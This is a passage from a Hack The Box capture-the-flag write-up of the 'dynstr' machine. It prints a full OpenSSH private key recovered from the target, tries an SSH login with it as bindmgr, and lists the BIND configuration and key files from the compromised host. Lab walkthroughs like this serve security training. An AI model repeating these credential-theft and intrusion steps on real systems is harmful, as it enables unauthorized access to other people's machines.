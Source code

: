 To apply **\n** characters I've copied the raw string to **id_rsa** file and processed it on my local machine.

```console
elpollon@elpollon:~/HTB/dynstr/content/ssh$ echo -e $(cat id_rsa) > id_rsa
elpollon@elpollon:~/HTB/dynstr/content/ssh$ cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAxeKZHOy+RGhs+gnMEgsdQas7klAb37HhVANJgY7EoewTwmSCcsl1
42kuvUhxLultlMRCj1pnZY/1sJqTywPGalR7VXo+2l0Dwx3zx7kQFiPeQJwiOM8u/g8lV3
HjGnCvzI4UojALjCH3YPVuvuhF0yIPvJDessdot/D2VPJqS+TD/4NogynFeUrpIW5DSP+F
L6oXil+sOM5ziRJQl/gKCWWDtUHHYwcsJpXotHxr5PibU8EgaKD6/heZXsD3Gn1VysNZdn
UOLzjapbDdRHKRJDftvJ3ZXJYL5vtupoZuzTTD1VrOMng13Q5T90kndcpyhCQ50IW4XNbX
CUjxJ+1jgwAAA8g3MHb+NzB2/gAAAAdzc2gtcnNhAAABAQDF4pkc7L5EaGz6CcwSCx1Bqz
uSUBvfseFUA0mBjsSh7BPCZIJyyXXjaS69SHEu6W2UxEKPWmdlj/WwmpPLA8ZqVHtVej7a
XQPDHfPHuRAWI95AnCI4zy7+DyVXceMacK/MjhSiMAuMIfdg9W6+6EXTIg+8kN6yx2i38P
ZU8mpL5MP/g2iDKcV5SukhbkNI/4UvqheKX6w4znOJElCX+AoJZYO1QcdjBywmlei0fGvk
+JtTwSBooPr+F5lewPcafVXKw1l2dQ4vONqlsN1EcpEkN+28ndlclgvm+26mhm7NNMPVWs
4yeDXdDlP3SSd1ynKEJDnQhbhc1tcJSPEn7WODAAAAAwEAAQAAAQEAmg1KPaZgiUjybcVq
xTE52YHAoqsSyBbm4Eye0OmgUp5C07cDhvEngZ7E8D6RPoAi+wm+93Ldw8dK8e2k2QtbUD
PswCKnA8AdyaxruDRuPY422/2w9qD0aHzKCUV0E4VeltSVY54bn0BiIW1whda1ZSTDM31k
obFz6J8CZidCcUmLuOmnNwZI4A0Va0g9kO54leWkhnbZGYshBhLx1LMixw5Oc3adx3Aj2l
u291/oBdcnXeaqhiOo5sQ/4wM1h8NQliFRXraymkOV7qkNPPPMPknIAVMQ3KHCJBM0XqtS
TbCX2irUtaW+Ca6ky54TIyaWNIwZNznoMeLpINn7nUXbgQAAAIB+QqeQO7A3KHtYtTtr6A
Tyk6sAVDCvrVoIhwdAHMXV6cB/Rxu7mPXs8mbCIyiLYveMD3KT7ccMVWnnzMmcpo2vceuE
BNS+0zkLxL7+vWkdWp/A4EWQgI0gyVh5xWIS0ETBAhwz6RUW5cVkIq6huPqrLhSAkz+dMv
C79o7j32R2KQAAAIEA8QK44BP50YoWVVmfjvDrdxIRqbnnSNFilg30KAd1iPSaEG/XQZyX
Wv//+lBBeJ9YHlHLczZgfxR6mp4us5BXBUo3Q7bv/djJhcsnWnQA9y9I3V9jyHniK4KvDt
U96sHx5/UyZSKSPIZ8sjXtuPZUyppMJVynbN/qFWEDNAxholEAAACBANIxP6oCTAg2yYiZ
b6Vity5Y2kSwcNgNV/E5bVE1i48E7vzYkW7iZ8/5Xm3xyykIQVkJMef6mveI972qx3z8m5
rlfhko8zl6OtNtayoxUbQJvKKaTmLvfpho2PyE4E34BN+OBAIOvfRxnt2x2SjtW3ojCJoG
jGPLYph+aOFCJ3+TAAAADWJpbmRtZ3JAbm9tZW4BAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

Let's try to login via SSH with this private key.

```console
elpollon@elpollon:~/HTB/dynstr$ ssh -i ./id_rsa bindmgr@10.10.10.244
bindmgr@10.10.10.244's password:
```

It requires a password. At this point should be 2 possibilities:

- The **id_rsa** is not useful.
- The **id_rsa** is useful but we need to modify DNS Pointer Records for **\*.infra.dyna.htb** to associate it with our IP address.

Let's play our cards to the second option. Let's take a look to **/etc/bind** in the victim's machine. 
```console
www-data@dynstr:/home/bindmgr$ ls -l /etc/bind
total 60
-rw-r--r-- 1 root root 1991 Feb 18  2021 bind.keys
-rw-r--r-- 1 root root  237 Dec 17  2019 db.0
-rw-r--r-- 1 root root  271 Dec 17  2019 db.127
-rw-r--r-- 1 root root  237 Dec 17  2019 db.255
-rw-r--r-- 1 root root  353 Dec 17  2019 db.empty
-rw-r--r-- 1 root root  270 Dec 17  2019 db.local
-rw-r--r-- 1 root bind  100 Mar 15  2021 ddns.key
-rw-r--r-- 1 root bind  101 Mar 15  2021 infra.key
drwxr-sr-x 2 root bind 4096 Mar 15  2021 named.bindmgr
-rw-r--r-- 1 root bind  463 Dec 17  2019 named.conf
-rw-r--r-- 1 root bind  498 Dec 17  2019 named.conf.default-zones
-rw-r--r-- 1 root bind  969 Mar 15  2021 named.conf.local
-rw-r--r-- 1 root bind  895 Mar 15  2021 named.conf.options
-rw-r----- 1 bind bind  100 Mar 15  2021 rndc.key
```
